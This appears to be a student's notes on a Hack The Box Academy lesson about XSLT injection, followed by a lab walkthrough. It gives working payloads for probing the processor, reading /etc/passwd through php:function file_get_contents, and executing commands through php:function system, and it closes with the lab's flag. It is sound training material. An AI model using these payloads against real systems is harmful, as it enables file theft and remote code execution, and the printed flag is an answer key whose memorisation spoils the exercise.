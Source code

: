 ```yaml
---
sticker: lucide//languages
---
```

After discussing some basics and use cases for XSLT, let us dive into exploiting XSLT injection vulnerabilities. 

---

## Identifying XSLT Injection

Our sample web application displays basic information about some Academy modules:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_1.png)

At the bottom of the page, we can provide a username that is inserted into the headline at the top of the list:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_2.png)

As we can see, the name we provide is reflected on the page. Suppose the web application stores the module information in an XML document and displays the data using XSLT processing. In that case, it might suffer from XSLT injection if our name is inserted without sanitization before XSLT processing. To confirm that, let us try to inject a broken XML tag to try to provoke an error in the web application. We can achieve this by providing the username `<`:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_3.png)

As we can see, the web application responds with a server error. While this does not confirm that an XSLT injection vulnerability is present, it might indicate the presence of a security issue.

---

## Information Disclosure

We can try to infer some basic information about the XSLT processor in use by injecting the following XSLT elements:


```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

The web application provides the following response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_4.png)

Since the web application interpreted the XSLT elements we provided, this confirms an XSLT injection vulnerability. Furthermore, we can deduce that the web application seems to rely on the `libxslt` library and supports XSLT version `1.0`.

---

## Local File Inclusion (LFI)

We can try to use multiple different functions to read a local file. Whether a payload will work depends on the XSLT version and the configuration of the XSLT library. For instance, XSLT contains a function `unparsed-text` that can be used to read a local file:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, it was only introduced in XSLT version 2.0. Thus, our sample web application does not support this function and instead errors out. However, if the XSLT library is configured to support PHP functions, we can call the PHP function `file_get_contents` using the following XSLT element:


```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

Our sample web application is configured to support PHP functions. As such, the local file is displayed in the response:

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_5.png)

---

## Remote Code Execution (RCE)

If an XSLT processor supports PHP functions, we can call a PHP function that executes a local system command to obtain RCE. For instance, we can call the PHP function `system` to execute a command:

```xml
<xsl:value-of select="php:function('system','id')" />
```

   

![](https://academy.hackthebox.com/storage/modules/145/xslt/xslt_exploitation_6.png)

# Question
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212153714.png)

Let's begin by identifying if the web application is vulnerable to XSLT:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212153742.png)

If we use a test username, we can see it gets injected into the top side of the website, let's use `<` and check if an error occurs:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212153834.png)

Page is broken, which means its vulnerable to XSLT, we can get RCE by submitting the following payload:

```xml
<xsl:value-of select="php:function('system','id')" />
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212153929.png)

We got RCE, let's read `/` directory:

```xml
<xsl:value-of select="php:function('system','ls /')" />
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212153953.png)

Found our flag:

```xml
<xsl:value-of select="php:function('system','cat /flag.txt')" />
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250212154014.png)

Flag is:

```
HTB{3a4fe85c1f1e2b61cabe9836a150f892}
```

